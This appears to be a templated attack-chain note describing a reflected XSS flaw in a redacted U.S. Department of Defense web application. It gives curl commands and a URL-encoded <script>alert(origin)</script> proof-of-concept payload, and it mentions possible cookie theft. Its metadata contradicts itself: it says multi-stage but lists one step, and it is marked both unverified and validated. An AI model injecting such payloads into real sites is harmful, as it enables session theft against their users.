

---
tags:
  - xss
  - reflected-xss
  - javascript-injection
  - dod
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-JavaScript-Payload-for-Reflected-XSS]]'
step_count: 1
techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:46:26.551Z'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in a U.S.
  Department of Defense web application by injecting a JavaScript payload into a
  URL query parameter, leading to arbitrary code execution in the victim's
  browser.
skill_level: beginner
impact_level: high
id: b50dc53c-2dd0-4acd-8987-25a9141f63a0
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
---
# Reflected XSS in DoD Web Application via Malicious URL Parameter

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)

### Target Environment

- Web application hosted on DoD infrastructure
- Accessible via public URL
- No authentication required for the vulnerable endpoint

### Initial Access Requirements

- Victim must visit the crafted malicious URL (e.g., via phishing or direct link)
- No prior credentials or network access needed
- Standard internet connectivity

## Detailed Attack Procedures

### Step 1: Deliver and Execute Malicious Payload
procedure: [[procedures/Inject-JavaScript-Payload-for-Reflected-XSS]]

**Objective**: Inject a URL-encoded JavaScript payload into a query parameter of the vulnerable DoD web application to trigger reflected XSS, executing arbitrary code in the victim's browser context.

**Instructions**: Construct a malicious URL by appending an encoded script tag to the vulnerable query parameter. For example, use the following URL structure (with redacted parts filled in based on the target):

```bash
# No command needed; open in browser or use curl to fetch
curl "https://███/████=https://████████████/%3C/script%3E%3Cscript%3Ealert(origin)%3C/script%3E&██████"
```

The payload `<script>alert(origin)</script>` is URL-encoded as `%3C/script%3E%3Cscript%3Ealert(origin)%3C/script%3E` and injected into the parameter (e.g., after a redirect URL). When the victim loads the page, the application reflects the payload without sanitization, executing the JavaScript.

To test via command line using [[commands/curl-fetch-payload]]:

```bash
curl -v "https://███/████=https://████████████/%3C/script%3E%3Cscript%3Ealert(origin)%3C/script%3E&██████" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
```

Observe the response for reflected payload; in a browser, an alert box will pop up confirming execution.

**Expected Output**: In browser, JavaScript alert dialog showing the origin (e.g., "https://vulnerable-site.mil"). In curl, HTML response containing the unescaped script tag.

**Success Indicators**:
- Alert box appears in the browser
- JavaScript executes, confirming arbitrary code injection
- No server-side errors; payload reflects client-side

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of JavaScript payload without authentication
2. Demonstration of potential for session hijacking or cookie theft in a high-security DoD environment
3. Identification of output encoding failure as root cause

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
